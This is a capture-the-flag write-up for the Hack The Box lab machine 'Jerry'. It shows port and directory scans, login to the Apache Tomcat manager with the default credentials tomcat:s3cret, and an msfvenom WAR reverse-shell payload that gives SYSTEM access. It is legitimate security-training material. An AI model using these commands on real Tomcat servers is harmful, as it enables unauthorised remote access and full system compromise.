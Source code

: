 ```yaml
---
tags:
  - tomcat
group: Windows
---
```

![](https://labs.hackthebox.com/storage/avatars/59f03a24178dbb2bdc94968c201e21f8.png)

- Machine : https://app.hackthebox.com/machines/Jerry
- Reference : https://0xdf.gitlab.io/2018/11/17/htb-jerry.html
- Solved : 2025.3.5. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Port**: HTTP (8080)
    - **Service Identified**:
        - Apache Tomcat 7.0.88 (Apache-Coyote/1.1)
        - Title: Apache Tomcat/7.0.88
        
2. **Web Enumeration**
    - **Directory Bruteforce** using `gobuster`:
        - `/docs/`, `/examples/`, `/manager/` discovered.
    - Accessing `/manager/html` revealed a login page.
    
3. **Web Exploitation**
    - **Default Credentials**:
        - Successfully logged in using `tomcat:s3cret` (from known default credentials list).
	- **Reverse Shell Deployment**:
		- Created WAR payload using `msfvenom`
		- Uploaded and deployed the WAR file via Tomcat Manager interface.
		- Triggered the shell and caught a reverse connection.

4. **Privilege Escalation**
	- **Result**: Obtained `NT AUTHORITY\SYSTEM` shell directly upon reverse shell connection.

### Key Techniques:

- **Service Fingerprinting**: Identified Apache Tomcat version via Nmap.
- **Directory Enumeration**: Discovered sensitive admin panel `/manager/html`.
- **Default Credential Abuse**: Used public credential `tomcat:s3cret`.
- **WAR File Exploitation**: Deployed a WAR reverse shell to gain remote access.
- **Direct Privilege Gain**: Immediate `SYSTEM` level access post-exploitation.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.95
Performing quick port scan on 10.10.10.95...
Found open ports: 8080
Performing detailed scan on 10.10.10.95...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 01:45 MST
Nmap scan report for 10.10.10.95
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds
```

### http(80)

![](attachments/jerry_1.png)

Apache Tomcat 7.0.88 is running.

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.95:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

Let's access `manager/html`.

![](attachments/jerry_2.png)

It asks login. Let's use default credentials from [here](https://raw.githubusercontent.com/netbiosX/Default-Credentials/refs/heads/master/Apache-Tomcat-Default-Passwords.mdown).
Among the credentials, `tomcat` : `s3cret` is the valid set.

![](attachments/jerry_3.png)

Let's create a `war` file to spawn a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.3 LPORT=9000 -f war > rshell.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
```

I uploaded it through "WAR file to deploy" and clicked the created one after setting up a listener.

```bash
┌──(kali㉿kali)-[~/htb/jerry]
└─$ nc -nlvp 9000          
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

I got `SYSTEM`'s shell.